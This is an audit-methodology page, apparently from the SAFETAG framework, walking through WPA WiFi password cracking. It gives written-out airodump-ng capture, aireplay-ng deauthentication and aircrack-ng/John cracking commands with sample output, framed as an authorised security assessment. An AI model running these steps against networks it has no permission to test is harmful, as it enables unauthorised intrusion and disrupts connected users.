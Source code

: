 ```yaml
---
title: WPA Password Cracking
approaches:
  - Technical
authors:
  - SAFETAG
remote_options:
  - None
skills_required:
  - Wireless
  - Traffic Analysis
  - Password auditing
skills_trained: []
summary: >

  The organization’s wireless Local Area Network (WLAN) protects the network and
  its users with WPA encryption. This is an important security measure, and a
  WPA-protected wireless network is much safer than an unencrypted “open”
  network or a WEP-protected network. (WEP is fundamentally flawed, and
  extremely simple attacks have been widely known for over a decade.) However,
  the ease with an attacker could guess the WPA key, or “WiFi password,” is a
  serious issue, particularly considering its importance as an essential
  perimeter control. An attacker who gains access to the wireless LAN
  immediately bypasses many protections that network administrators, and other
  users of the office network, often take for granted. Put another way, anyone
  able to guess the WPA key is immediately “inside the firewall.”


  Using a laptop and a wireless card with a standard, internal antenna (or using
  a customized smartphone or other small device), an attacker could easily
  position themselves close enough to the office to carry out the first phase of
  this attack, which would only take a few minutes. The second phase, which is
  supposed to be the difficult part, could take even less time. From the privacy
  of their own home or office, the attacker could use a minimally customized
  password dictionary to guess the WPA key .


  <!--For reporting, needs time-to-break WPA password -->
overview: ''
materials_needed: >

  * For the (most common) WPA password-based attacks, an already-prepared
  dictionary of words to use to attack the password will be required. See the
  Appendix on Audit Preparation for guidance on dictionary preparation.
considerations: ''
walk_through: >


  An attacker can crack the office’s WPA key in approximately with a short and
  minimally customized password dictionary based on open information about the
  organization and basic word collections.


  **Step 1:** The attacker customizes their WiFi password dictionary, adding
  phrases related to the subject: organization name, street address, phone
  number, email domain, wireless network name, etc. Common password fragments
  are included, as well: qwerty, 12345, asdf and all four-digit dates back to
  the year 2001, for example, among others. The attacker may then add hundreds
  or thousands of words (in English and/or other relevant languages).


  See the Password Strength exercise for details on password dictionary buidling
  and usage.


  **Step 2:** The attacker would then begin recording all (encrypted) wireless
  traffic associated with the organization’s access point:


  ```

  $ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0

   CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
   1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg
   BSSID              STATION            PWR   Rate    Lost  Packets  Probes
   1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
   1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
   1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
   1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321
  ```


  wifite is also useful for this step, and claims to automatically de-auth (step
  3).


  **Step 3:** Next, the auditor forces a wireless client, possibly chosen at
  random, to disconnect and reconnect (an operation that is nearly always
  invisible to the user).


  In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that
  was briefly disconnected in this way.


  ```

  $ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0

   15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
   15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
  ```


  The goal of this step is to capture the cryptographic handshake that occurs
  when the targeted client reconnects. Try using different clients if the first
  one doesn't work, or try (physically) moving around.


  This handshake does not contain the WPA key itself, but once the the complete
  handshake process has been seen, the auditor (or a potential attacker) can
  leave the vicinity and run various password cracking tools to try and discover
  the password. While a complete password cracking tutorial is out of scope for
  SAFETAG documentation, below are three strategies:


  **Step 4:** The auditor attempts to discover the WPA password.


  A good wordlist with a few tweaks tends to break an unforunate number of
  passwords.  Using a collection of all english words, all words from the
  language of the organization being audited, plus a combination of all these
  words, plus relevant keywords, addresses, and years tends to crack most wifi
  passwords.


  ```bash
      $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
  ```


  For WPA captures, John can either feed in to an aircrack process or attack a
  capture directly.  For captures, you first have to convert the .cap file (from
  wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo
  version we use has conversion tools for this available:


  ```bash
    $wpapcap2john wpa.cap > crackme
    $./john -w:password.lst -fo=wpapsk-cuda crackme
  ```
recommendations: ''
organization_size_under: 1000
time_required_minutes: 240
---
```


